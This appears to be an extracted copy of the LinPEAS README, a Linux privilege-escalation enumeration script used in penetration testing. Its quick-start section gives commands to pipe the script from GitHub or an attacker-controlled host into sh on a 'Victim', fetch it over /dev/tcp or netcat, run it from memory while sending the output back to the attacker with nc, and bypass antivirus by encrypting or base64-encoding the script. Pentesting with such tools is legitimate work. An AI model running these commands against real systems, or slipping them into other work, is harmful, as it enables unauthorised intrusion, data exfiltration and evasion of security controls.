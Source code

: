 LinPEAS - Linux Privilege Escalation Awesome Script

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts
------------------------
Quick Start

 # From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

---------------------
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
---------------------
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
------------------------------------------------------------
 #AV bypass

#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim

--------------------------------------------------------------------
Basic Information

